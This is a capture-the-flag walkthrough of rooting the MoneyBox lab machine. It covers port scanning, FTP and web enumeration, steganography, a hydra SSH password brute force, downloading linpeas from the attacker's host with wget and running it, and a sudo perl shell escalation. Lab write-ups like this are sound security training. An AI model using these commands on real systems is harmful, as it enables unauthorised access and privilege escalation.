 # MoneyBox Walkthrough
Hello There, 

This is f33z and i am here to share my walkthrough On how i Got root access to the machine MoneyBox in the play section of proving grounds, which means it does also belong to Vulnhub

## Port Scanning
We run Nmap as usual to find open ports : 
```bash
nmap -p- -T4 -v [IP-ADDRESS]
```
- -p- : for scanning all ports 0-65,535
- -T4 : for Quick Scan T1-T5
- -v : for verbose mode

We got that there is two open port 21,22,80 to check their services and their version, we run the command 
```bash
nmap -p21,22,80 -sC -sV [IP-ADDRESS]
```
this screen shows the we have the services FTP, SSH, HTTP for the followings 21,22,80 ports

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/502374f7-7579-42fe-9597-3e53c10ad690)

## Enumeration
### 21 Port - FTP
Since we can log in to FTP using anonymous access, we found an image named `trytofind.jpg`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ac4f71f0-45e3-4d5b-bfdb-b592d960bcb0)


this version of FTP `vsFTPd 3.0.3` does not seem to have an exploitable vulnerability, accourding to the results of this command :
```bash
searchsploit vsFTPd 3.*
```
### 80 Port - HTTP

the IP Address displays this web page, this indicates that this machine is more CTF-like, so we can think like if we are solving CTFs instead of focusing on realistic attacks only

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/0634847f-4cf3-4fcc-a146-c03c4f0015a8)

After running a Directory brute force on this web page we found that there is /blog directory
```bash
dirsearch -u http://IP-ADDRESS/
```
![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/db451dc3-0475-4dae-9d1e-118565906f3c)

In the source code of this page, we found 
```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ac6191d4-ad37-4b04-b32a-036801830715)

when we navigate to /blog/S3cr3t-T3xt directory, we found this page 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/4f6388a4-58e8-4bc2-9fa1-5f4eea018b93)

this page also had this `<!..Secret Key 3xtr4ctd4t4 >` hidden in its source code 

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5a142371-df80-4cef-9060-440fb5625325)


## Initial Access
Since this box is a CTF-like Box, and after our enumeration we did find a JPG image and a key `3xtr4ctd4t4`, we will try some steganography on this image, since it is JPG image, we can use steghide and since we have a key, we can try that key as passphrase to stehide
```bash
steghide extract -sf trytofind.jpg
```

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5dc2c4f8-3499-4f5c-8391-318cc786abc8)

This hint indicats that the password of the user `renu` is easy to brute force, we can use hydra to bruteforce it on the service SSH
```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://[IP-ADDRESS] -t 10
```


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/5478486f-358b-43c8-95d0-8a4c4a539f58)

We found quickly this easy password : `987654321`

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/29705a8a-5eb8-4250-9623-f633435773e7)

## Privilege Escalation

After gaining access to the moneyBox machine as renu user, we will try to escalate our privileges, to do so, we run linpeas on the target machine, 

in my kali machine :
```bash
python3 -m http.server 80
```

in the moneyBox machine 
```bash
cd /tmp
wget http://[IP-ADDRESS-kali]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

After going through the output of linpeas we get some intresting commands that were related to ssh and the user lily


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/dedad9c9-8105-4872-a408-c139722638e8)

we make sure we can access access ssh using the user lily, i checked the file authorized keys in the .ssh directory inside the home directory of renu 
and i found that lily can access ssh using the same private key that renu uses :


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/b2724f9c-1100-4300-a340-a39b6c011b5f)

doing so i got a access with priviliges of the user lily, 


![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/ad9026e8-0fd7-462e-865e-d01d0fda4fd1)

running the command `sudo -l` shows that i can run the command perl with sudo permissions without password, using the [GTFObins](https://gtfobins.github.io/gtfobins/perl/#sudo) website i can run this command to get root privileges :

```bash
sudo perl -e 'exec "/bin/sh";'
```

And Yes we are again GROOT!!!

![image](https://github.com/F33-Z/Walkthroughs/assets/73140750/4e6dfdb9-2751-4bf1-b123-69118b492e76)








